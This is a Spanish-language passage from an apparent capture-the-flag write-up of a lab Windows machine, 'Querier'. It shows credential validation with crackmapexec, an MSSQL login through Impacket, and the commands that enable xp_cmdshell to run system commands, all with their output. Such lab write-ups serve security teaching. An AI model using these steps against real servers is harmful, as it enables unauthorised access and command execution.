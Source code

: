 Tenemos unas nuevas credenciales, por lo que pasamos a validarlas con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\mssql-svc:corporate568
```

Ahora, intentamos conectarnos a *Microsoft SQL Server* con las nuevas credenciales y validamos si podemos ejecutar comandos a nivel de sistema:

```bash
❯ mssqlclient.py WORKGROUP/mssql-svc@10.10.10.125 -windows-auth
/usr/local/lib/python2.7/dist-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced", 1
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc                                                                  

NULL                                                                               

SQL>
```
